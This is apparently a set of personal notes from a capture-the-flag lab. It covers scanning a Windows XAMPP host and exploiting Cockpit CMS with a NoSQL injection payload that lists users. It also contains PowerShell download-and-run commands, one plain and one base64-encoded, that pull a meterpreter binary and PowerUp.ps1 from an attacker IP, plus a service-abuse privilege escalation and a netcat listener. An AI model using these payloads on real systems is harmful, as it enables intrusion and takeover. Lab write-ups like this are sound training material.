 10.129.173.59

```
80/tcp open  http    Apache httpd 2.4.48 (OpenSSL/1.1.1k PHP/7.4.20)
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/7.4.20
|_http-title: 403 Forbidden
Service Info: Host: localhost
```


Worthy gobuster:

```
/xampp
/phpmyadmin
/webalizer
/aux
/con
/php-cgi/
```



-----------------------------


Using `feroxbuster` and the  raft wordlists from SecLists

I found `/cockpit`


Now trying from here:

https://swarm.ptsecurity.com/rce-cockpit-cms/


I used method #3 

```
{"auth":{"user":{
"$func":"var_dump"
},"password":[
0
]
},"csfr":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJjc2ZyIjoibG9naW4ifQ.dlnu8XjKIvB6mGfBlOgjtnixirAIsnzf5QTAEP1mJJc"}
```

```
string(7) "ricardo"
string(5) "laura"
string(6) "steven"
{"success":false,"error":"User not found"}
```


We can use this chain to get a shell

I do this in my new repo

I use `powershell -enc` to run commands that would have periods/dots in them

(New-Object Net.WebClient).DownloadFile("http://10.10.14.7/met7777.exe","C:\Users\web\AppData\Local\Temp\met7777.exe")


powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAEYAaQBsAGUAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4ANwAvAG0AZQB0ADYANgA2ADYALgBlAHgAZQAiACwAIgBDADoAXABVAHMAZQByAHMAXAB3AGUAYgBcAEEAcABwAEQAYQB0AGEAXABMAG8AYwBhAGwAXABUAGUAbQBwAFwAbQBlAHQANgA2ADYANgAuAGUAeABlACIAKQA=

https://raikia.com/tool-powershell-encoder/



Get meterpreter shell -- tried x64



```
load powershell
powershell_shell

IEX (New-Object Net.WebClient).DownloadString("http://10.10.14.7/PowerUp.ps1")

```


Invoke-ServiceAbuse -Name 'VeyonService' -Command "C:\Users\web\AppData\Local\Temp\shell4444.exe"

need to have it call back to a different port


just listen with netcat